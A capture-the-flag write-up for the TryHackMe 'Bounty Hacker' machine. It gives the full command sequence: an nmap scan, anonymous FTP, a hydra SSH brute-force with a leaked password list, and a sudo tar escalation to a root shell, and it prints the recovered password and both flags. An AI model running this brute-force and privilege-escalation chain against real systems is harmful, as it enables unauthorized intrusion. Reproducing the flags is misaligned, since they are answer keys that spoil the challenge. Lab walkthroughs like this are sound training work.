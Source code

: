 ```yaml
---
title: Bounty Hacker
date: 2022-05-27 17:00:00 +500
categories: [THM, easy machines]
tags: []    # TAG names should always be lowercase
---
```


10.10.101.89

### Find open ports on the machine

run a quick Nmap scan:

```terminal
nmap -p- -sS --min-rate 10000 --open -vvv -n -Pn 10.10.101.89 
```

```
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 60
22/tcp open  ssh     syn-ack ttl 60
80/tcp open  http    syn-ack ttl 60
```

### Who wrote the task list? 

Let's start checking the ftp server, I tried to login with Anonymous and I had success, they where only 2 files, locks.txt and task.txt

locks.txt
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```

this file seems to be a list of possible usernames, or perhaps passwords.

task.txt
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

not sure what those tasks mean. but we have the answer:

> lin

### What service can you bruteforce with the text file found?

I take a guess and I think it's gonna be the ssh service since it says service, and not some login page in the webserver which after a quick look to /login and /login.php did not found a page.

so let's prepare the hydra command to bruteforce the service.

```terminal
hydra -l lin -P locks.txt 10.10.101.89 ssh
```

and we got a winner!  'RedDr4gonSynd1cat3'

### What is the users password? 

> RedDr4gonSynd1cat3

### user.txt

login to the ssh service with the credentials we got, and cat the file on lin's directory:

> THM{CR1M3_SyNd1C4T3}

### root.txt

run 'sudo -l' to see what we can run as sudo, and we have something '/bin/tar', let's head over to gtfobins to the if there's a way to get a root shell taking advantage of this.

```terminal
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

and we got ourselves a shell!
now just cat the file on /root directory.

> THM{80UN7Y_h4cK3r}